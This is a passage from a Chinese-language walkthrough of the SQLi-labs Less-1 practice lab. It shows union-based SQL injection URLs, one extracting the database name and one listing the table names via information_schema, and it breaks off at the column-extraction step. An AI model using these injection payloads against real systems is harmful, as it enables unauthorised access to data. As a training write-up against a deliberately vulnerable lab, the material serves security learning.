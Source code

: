 > 因此只能在 2，3  处构造语句

**爆库**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

得到数据库名为 `secrity`

![得到数据库名为 security](./../../../../images/SQLI%20labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D%E4%B8%BA%20security.png)

**爆表**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

得到数据表名

![得到数据表名](./../../../../images/SQLI%20labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E8%A1%A8%E5%90%8D.png)

> 根据数据表名选择数据表

**爆字段**
